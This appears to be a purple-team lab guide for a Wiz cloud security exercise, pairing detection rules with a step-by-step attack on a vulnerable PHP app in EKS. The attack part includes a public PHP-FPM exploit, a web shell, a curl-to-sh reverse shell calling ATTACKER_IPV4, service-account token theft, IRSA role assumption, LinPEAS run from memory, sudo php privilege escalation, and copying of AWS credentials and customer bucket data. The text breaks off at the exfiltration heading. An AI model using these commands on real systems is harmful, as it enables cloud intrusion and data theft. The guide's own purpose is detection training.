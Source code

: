 ## Chapter 1: Application Architecture

1. Evaluate the architecture of the applications and different weaknesses that we may want to monitor:

- [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28queryTitle%7E%27Issue*20Evidence%7Equery%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ASSIGNED_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE%29%29%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ENTITLES%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27HAS_DATA_FINDING%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27DATA_FINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27BUCKET%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27IAM_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%7E%27VulnerabilitySeverityMedium%7E%27VulnerabilitySeverityLow%29%29%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27POD%29%29%29%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27KUBERNETES_CLUSTER%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ALERTED_ON%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CAUSES%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER_IMAGE%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SUBSCRIPTION%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27DEPLOYMENT%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%7Elayers%7E%28%7E%27issues%7E%27public_exposure%7E%27lateral_movement%29%7Eview%7E%27graph%29)

## Chapter 2: Detection Engineering

1. Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** Workload Runtime Rule
- **Name:** Shell executed from php-fpm or php container
- **Description:**
  - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
- **Severity:** High
- **Event Type:** Process Execution
  - **Process Names:** `dash` `bash` `sh`
- **Actor > + Add Actor**
  - **Process Names:** `php` `php-fpm`
  - **Container Names:** `php`
- **Create Rule**

3. Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** FIM Rule
- **Name:** Highly privileged AWS credentials file accessed
- **Description:**
- **Severity:** Medium
- **Detection Method:** Runtime FIM
  - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
- **Monitoring Conditions:**
  - **Directory Paths:** `/root/.aws/`
  - **Include:** `credentials`
  - **Attributes:** Open
  - **Coverage:** Both host and container file systems
- **Create Rule**

## Chapter 3: Purple Team Exercise

1. Navigate to the web app in the browser and leave the session open:

- [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

2. Login to attacker box, download public exploit and run it:

```sh
chmod 400 attacker.pem
ssh -i attacker.pem ec2-user@${ATTACKER_IPV4}
go install github.com/neex/phuip-fpizdam@latest
cd ~/go/bin
./phuip-fpizdam http://${APP_URL}/index.php
```

3. Test Shell in Browser:

- Add `?` to the end of the URL in the browser
- Add `a=id`
- Press Enter / Return

  ***

  **NOTE**

  You may have to press enter / return twice in order for the shell to execute.
  The full URL should look like this: http://${APP_URL}/index.php?a=id

  ***

4. Start netcat on Attacker Box:

```sh
nc -lv 1337
```

5. Test Reverse Shell:

- After the `?`, replace `a=id` with:
  - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

6. In Reverse Shell, run the following commands:\*\*

- **User on container host:**

  - `whoami`

  - **Confirm which host you are on:**

  - `uname -a`

- **Validate IRSA (IAM Role for Service Accounts) Access:**

  Identify the EKS service account token

  ```sh
  cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
  ```

  Break up the JSON Web Token (JWT) into it's parts

  ```sh
  jwt=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
  header=$(echo "$jwt" | cut -d '.' -f1)
  payload=$(echo "$jwt" | cut -d '.' -f2)
  signature=$(echo "$jwt" | cut -d '.' -f3)

  printf "Header:\n"
  printf "%s" "$header" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nPayload:\n"
  printf "%s" "$payload" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nSignature (Base64):\n%s\n" "$signature"
  ```

  Assume Role with the IRSA

  ```sh
  RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
  ```

  Validate the active session

  ```sh
  echo $RESPONSE | jq .
  ```

  Set the environment variables

  ```sh
  export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
  export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
  export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
  ```

  Confirm access through session

  ```sh
  aws sts get-caller-identity
  ```

7. List buckets:

- `aws s3 ls`
- `aws s3 ls ${WEB_BUCKET}`
- `aws s3 cp s3://${WEB_BUCKET} /tmp --recursive`

8. Validate the contexts of the file

- `cat /tmp/image.png`

9. Access other credentials file:

   - `cat /root/.aws/credentials/`

10. Test LinPEAS over reverse shell:

- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
- **Can I write anywhere?:**
  - `tmp`
- **What if I run it directly from memory?:**
  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

11. Use php to escalate privileges:

- GTFObin
  ```sh
  CMD="/bin/bash"
  sudo php -r "system('\$\CMD');"
  ```

12. Validate that you were able to escalate privileges to root:

- `whoami`

13. Access credentials file:

- `cat /root/.aws/credentials`

14. Use credentials to access AWS

- `aws sts get-caller-identity`

15. List Buckets and Objects

    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`

16. Stage Data

    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`

17. Exfiltrate Data
